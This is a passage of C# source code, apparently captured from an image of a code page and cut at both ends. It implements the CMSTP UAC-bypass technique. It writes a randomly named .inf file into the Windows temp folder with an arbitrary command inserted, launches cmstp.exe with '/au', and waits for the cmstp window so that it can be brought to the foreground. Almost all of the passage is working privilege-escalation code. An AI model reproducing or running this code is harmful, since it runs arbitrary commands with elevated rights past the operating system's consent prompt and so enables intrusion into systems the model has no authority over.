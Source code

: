 [CustInstDestSectionAllUsers]
49000,49001=AllUSer_LDIDSection, 7

[AllUSer_LDIDSection]
""HKLM"", ""SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\CMMGR32.EXE"", ""ProfileInstallPath"", ""%UnexpectedError%"", """"

[Strings]
ServiceName=""CorpVPN""
ShortSvcName=""CorpVPN""

";

    [DllImport("user32.dll")] public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
    [DllImport("user32.dll", SetLastError = true)] public static extern bool SetForegroundWindow(IntPtr hWnd);

    public static string BinaryPath = "c:\\windows\\system32\\cmstp.exe";

    /* Generates a random named .inf file with command to be executed with UAC privileges */
    public static string SetInfFile(string CommandToExecute)
    {
        string RandomFileName = Path.GetRandomFileName().Split(Convert.ToChar("."))[0];
        string TemporaryDir = "C:\\windows\\temp";
        StringBuilder OutputFile = new StringBuilder();
        OutputFile.Append(TemporaryDir);
        OutputFile.Append("\\");
        OutputFile.Append(RandomFileName);
        OutputFile.Append(".inf");
        StringBuilder newInfData = new StringBuilder(InfData);
        newInfData.Replace("REPLACE_COMMAND_LINE", CommandToExecute);
        File.WriteAllText(OutputFile.ToString(), newInfData.ToString());
        return OutputFile.ToString();
    }

    public static bool Execute(string CommandToExecute)
    {
        if(!File.Exists(BinaryPath))
        {
            Console.WriteLine("Could not find cmstp.exe binary!");
            return false;
        }
        StringBuilder InfFile = new StringBuilder();
        InfFile.Append(SetInfFile(CommandToExecute));

        Console.WriteLine("Payload file written to " + InfFile.ToString());
        ProcessStartInfo startInfo = new ProcessStartInfo(BinaryPath);
        startInfo.Arguments = "/au " + InfFile.ToString();
        startInfo.UseShellExecute = false;
        Process.Start(startInfo);

        IntPtr windowHandle = new IntPtr();
        windowHandle = IntPtr.Zero;
        do {
            windowHandle = SetWindowActive("cmstp");
        } while (windowHandle == IntPtr.Zero);
